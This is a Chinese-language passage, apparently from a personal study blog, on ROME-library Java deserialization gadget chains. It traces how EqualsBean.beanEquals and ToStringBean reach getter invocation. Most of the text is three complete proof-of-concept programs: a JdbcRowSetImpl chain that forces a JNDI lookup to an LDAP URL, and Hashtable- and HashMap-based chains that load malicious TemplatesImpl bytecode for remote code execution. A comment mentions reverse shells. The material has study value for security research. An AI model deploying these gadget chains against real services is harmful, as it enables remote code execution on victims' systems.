                throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
            }
        } else {
            return this.getUrl() != null ? DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()) : null;
        }
    }
```

如果配置了数据源名称（DataSourceName）时会优先通过JNDI获取连接，之后并根据是否配置了用户名和密码选择对应的连接方法。如果没有配置数据源名称的话会**通过 JDBC URL 直接获取连接**。需要走到lookeup方法中，但是需要`this.getDataSourceName() != nul`

这里拿HashMap链为例去写一下这个poc

## 最终POC

```java
package SerializeChains.ROMEChains;

import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.sql.rowset.BaseRowSet;
import java.io.*;
import java.lang.reflect.Method;
import java.util.Base64;
import java.util.HashMap;

public class ObjectBeanJdbcRowSetImplPoc {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:1389/exp";
        Method method = BaseRowSet.class.getDeclaredMethod("setDataSourceName",String.class);
        method.invoke(jdbcRowSet,url);

        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,jdbcRowSet);
        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);
        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(objectBean,"111");

        serialize(hashMap);
        unserialize("ObjectBeanJdbcRowSetImplPoc.txt");
    }
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ObjectBeanJdbcRowSetImplPoc.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //将序列化字符串转为base64
    public static void Base64serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}

```

上面所有讲到的前半段触发的toString在这里都是可以换着来的

接下来我们来测一下新的链子

# 不走toString该怎么做

在上面的分析中我们可以得出ROME链的核心就在于ToStringBean的toString中的这段代码

```java
                    if (pReadMethod!=null &&                             // ensure it has a getter method
                        pReadMethod.getDeclaringClass()!=Object.class && // filter Object.class getter methods
                        pReadMethod.getParameterTypes().length==0) {     // filter getter methods that take parameters
                        Object value = pReadMethod.invoke(_obj,NO_PARAMS);
                        printProperty(sb,prefix+"."+pName,value);
                    }
```

那除了这个还有别的方法吗？其实是有的

全局搜索一下`pReadMethod.invoke`



哎？看到在EqualsBean#beanEquals()方法中也有相关的用法，跟进去看一下

## EqualsBean#beanEquals()

```java
public boolean beanEquals(Object obj) {
        Object bean1 = _obj;
        Object bean2 = obj;
        boolean eq;
        if (bean2==null) {
            eq = false;
        }
        else
        if (bean1==null && bean2==null) {
            eq = true;
        }
        else
            if (bean1==null || bean2==null) {
                eq = false;
            }
            else {
                if (!_beanClass.isInstance(bean2)) {
                    eq = false;
                }
                else {
                    eq = true;
                    try {
                        PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(_beanClass);
                        if (pds!=null) {
                            for (int i = 0; eq && i<pds.length; i++) {
                                Method pReadMethod = pds[i].getReadMethod();
                                if (pReadMethod!=null && // ensure it has a getter method
                                        pReadMethod.getDeclaringClass()!=Object.class && // filter Object.class getter methods
                                        pReadMethod.getParameterTypes().length==0) {     // filter getter methods that take parameters
                                    Object value1 = pReadMethod.invoke(bean1, NO_PARAMS);
                                    Object value2 = pReadMethod.invoke(bean2, NO_PARAMS);
                                    eq = doEquals(value1, value2);
                                }
                            }
                        }
                    }
                    catch (Exception ex) {
                        throw new RuntimeException("Could not execute equals()", ex);
                    }
                }
            }
        return eq;
    }
```

和之前的内容是差不太多的，我们看看哪里调用了beanEquals

在EqualsBean类的equals方法和ObjectBean的equals方法中

```java
//EqualsBean    
public boolean equals(Object obj) {
    return beanEquals(obj);
    }
//ObjectBean
public boolean equals(Object other) {
    return _equalsBean.beanEquals(other);
}
```

先讲EqualsBean，如果要调用equals的话其实也是有方法的，在我们上面也讲过，一个是通过HashMap去触发一个是通过Hashtable去触发

但是做hash的时候一直没成功，最终只能换成Hashtable了

### Hashtable触发beanEquals

这个其实在CC7的时候就研究过

在Hashtable的readObject中




 这里确实更好去做碰撞

#### 最终链子1

```java
Hashtable#readObject()->Hashtable#reconstitutionPut()->EqualsBean#equals()->EqualsBean#beanEquals()
```

#### 最终POC1

```java
package SerializeChains.ROMEChains;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class EqualsBeanHashtablebeanEqualsPoc {
    public static void main(String[] args) throws Exception {
        //Hashtable触发EqualsBean#beanEquals

        //CC3中TemplatesImpl的利用链加载恶意类字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        TemplatesImpl templates = (TemplatesImpl)getTemplates(code);

        //触发EqualsBean#beanEquals方法
        EqualsBean bean = new EqualsBean(String.class, "s");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", templates);
        map2.put("zZ", bean);
        map2.put("yy", templates);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");
        setFieldValue(bean, "_beanClass", Templates.class);
        setFieldValue(bean, "_obj", templates);

        serialize(table);
        unserialize("EqualsBeanHashtablebeanEqualsPoc.txt");

    }
    public static Object getTemplates(byte[] bytes)throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[][] codes = {bytes};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("EqualsBeanHashtablebeanEqualsPoc.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //将序列化字符串转为base64
    public static void Base64serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}

```

函数调用栈



但是其实这里我并不清楚为什么需要设置这样的两个hashMap去put进去

好吧后面测出来HashMap的了，之前想的复杂了

### HashMap触发beanEquals

#### 最终链子2

```java
HashMap#readObject()->HashMap#putVal()->EqualsBean#equals()->EqualsBean#beanEquals()
```

#### 最终POC2

```java
package SerializeChains.ROMEChains;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class EqualsBeanHashMapbeanEqualsPoc {
    public static void main(String[] args) throws Exception {
        //Hashtable触发EqualsBean#beanEquals

        //CC3中TemplatesImpl的利用链加载恶意类字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        TemplatesImpl templates = (TemplatesImpl)getTemplates(code);

        //触发EqualsBean#beanEquals方法
        EqualsBean bean = new EqualsBean(String.class, "s");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", templates);
        map2.put("zZ", bean);
        map2.put("yy", templates);
        HashMap map = makeMap(map1,map2);
        setFieldValue(bean, "_beanClass", Templates.class);
        setFieldValue(bean, "_obj", templates);

        serialize(map);
        unserialize("EqualsBeanHashMapbeanEqualsPoc.txt");

    }
    //hashmap的put实际上就是，这个具体用法我也不清楚
    public static HashMap<Object, Object> makeMap(Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> map = new HashMap<>();
        // 这里是在通过反射添加map的元素，而非put添加元素，因为put添加元素会导致在put的时候就会触发RCE，
        // 一方面会导致报错异常退出，代码走不到序列化那里；另一方面如果是命令执行是反弹shell，还可能会导致反弹的是自己的shell而非受害者的shell
        setFieldValue(map, "size", 2); //设置size为2，就代表着有两组
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));  //通过此处来设置的0组和1组，我去，破案了
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(map, "table", tbl);
        return map;
    }
    public static Object getTemplates(byte[] bytes)throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[][] codes = {bytes};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("EqualsBeanHashMapbeanEqualsPoc.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //将序列化字符串转为base64
    public static void Base64serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```


